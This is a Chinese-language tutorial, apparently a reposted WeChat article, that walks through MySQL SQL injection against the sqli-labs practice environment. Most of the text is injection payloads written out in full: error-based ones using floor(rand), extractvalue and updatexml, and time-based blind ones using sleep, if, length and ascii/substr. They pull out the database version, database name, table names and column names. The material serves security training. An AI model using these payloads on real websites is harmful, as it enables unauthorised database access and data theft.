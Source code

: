 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s/YeMARRFipY-7HUePN3z2eg)

没有人不辛苦，只是有人不喊疼。。。

\----  网易云热评

环境：sqli

一、报错注入

1、判断是否存在报错

http://192.168.77.128/sqli/Less-2/?id=1'

![](https://mmbiz.qpic.cn/mmbiz_png/8H1dCzib3UibuhDgYKiaO4noInjx8FbMgJFPmhkh9Kzj01VeEjpgQIIJlT5m8C6esT5xjTkGvI15jqDmRsZC4icTFA/640?wx_fmt=png)

2、group by 虚拟表主键重复冲突

查看数据库版本号

```
http://192.168.77.128/sqli/Less-2/?id=1 and (select 1 from (select count(\*),concat(0x23,(select version()),0x23,floor(rand(0)\*2))x from in
formation\_schema.tables group by x)a limit 1)
```

运行结果：

![](https://mmbiz.qpic.cn/mmbiz_png/8H1dCzib3UibuhDgYKiaO4noInjx8FbMgJF8LW1Sjy1ry0oocLOc5XfKG7bfcrfFUiberrhboiczicDqxUoD5aocRthg/640?wx_fmt=png)

获取数据库名称

```
http://192.168.77.128/sqli/Less-2/?id=1 and (select 1 from (select count(\*),concat(0x23,(select database()),0x23,floor(rand(0)\*2))x from in
formation\_schema.tables group by x)a limit 1)
```

![](https://mmbiz.qpic.cn/mmbiz_png/8H1dCzib3UibuhDgYKiaO4noInjx8FbMgJFyN3eshV5WMYVc68nhdL372z1bFsgvTSICZSoKV7lEPmaH0oofJsM4A/640?wx_fmt=png)

3、extractvalue() 函数

获取 sercurity 数据库中的表名，通过修改 limit 后面的数字获取该数据库不同的表名

```
http://192.168.77.128/sqli/Less-2/?id=1 and extractvalue(1,concat(0x23,(select table\_name from information\_schema.tables where table\_schema=database() limit 3,1),0x23))
```

![](https://mmbiz.qpic.cn/mmbiz_png/8H1dCzib3UibuhDgYKiaO4noInjx8FbMgJFvuTjcpYOcIA1RyBTporr3YoNjicYAa8111caddW3cScusgAonz6YJRw/640?wx_fmt=png)

4、updatexml() 函数

获取 user 表名中的字段, 通过修改 limit 后面的数字获取该数据库不同的字段

```
http://192.168.77.128/sqli/Less-2/?id=1 and updatexml(2,concat(0x23,(select column\_name from information\_schema.columns where table\_schema=database() and table\_name='users' limit 1,1),0x23),1)
```

![](https://mmbiz.qpic.cn/mmbiz_png/8H1dCzib3UibuhDgYKiaO4noInjx8FbMgJFv2lLlz6raPAARibXeHmVNGrV0H26F4zY9MG7LAqOickQuIJfajUJO1uA/640?wx_fmt=png)

二、延时注入

1、判断字符注入

http://192.168.77.128/sqli/Less-8/?id=1' and 1=2 --+ 报错

![](https://mmbiz.qpic.cn/mmbiz_png/8H1dCzib3UibuhDgYKiaO4noInjx8FbMgJF66BoC7v9M87rQsJXug6GZKGAMPgFnCALicxb8PS23m5ibDzYcztwpAcA/640?wx_fmt=png)

http://192.168.77.128/sqli/Less-8/?id=1' and 1=1 --+ 正常

![](https://mmbiz.qpic.cn/mmbiz_png/8H1dCzib3UibuhDgYKiaO4noInjx8FbMgJF0wbxVmMfwNhcVibyqwfNHYjTDzKd4Xb1IeAV4iaU8ibjb0icqhQYNSMwaQ/640?wx_fmt=png)

2、判断是否存在延时

```
http://192.168.77.128/sqli/Less-8/?id=1' and sleep(5) --+  延长5秒再执行
```

```
http://192.168.77.128/sqli/Less-8/?id=1 and sleep(5) --+ 没有延长
```

3、if 与 sleep 结合使用

```
if(exp1,exp2,exp3):如果exp1为真，返回exp2，否则返回exp3
```

4、判断数据库长度

```
http://192.168.77.128/sqli/Less-8/?id=1' and if(length(database())>=8,sleep(5),1) --+
```

5、判断数据库名字的第一个字母

```
http://192.168.77.128/sqli/Less-8/?id=1' and if(ascii(substr(database(),1,1))=115,sleep(5),1) --+
```

延时 5 秒，说明数据库的第一个字母的 ASCII 码为 115，即 s

6、根据以前内容，可以获取表名和字段名。

禁止非法，后果自负

欢迎关注公众号：web 安全工具库

![](https://mmbiz.qpic.cn/mmbiz_jpg/8H1dCzib3UibuhDgYKiaO4noInjx8FbMgJFuShHeuwia6AgwyQoyaO62I2VBicJo3Xl1kjTz01jleLicrV3fEr6yibmhg/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_png/8H1dCzib3UibuhDgYKiaO4noInjx8FbMgJFCFQbopjCxXEUf3lOLibcy6VFP3YSVT3AbXCzeYcPMcEHeQeFKFrBWGg/640?wx_fmt=png)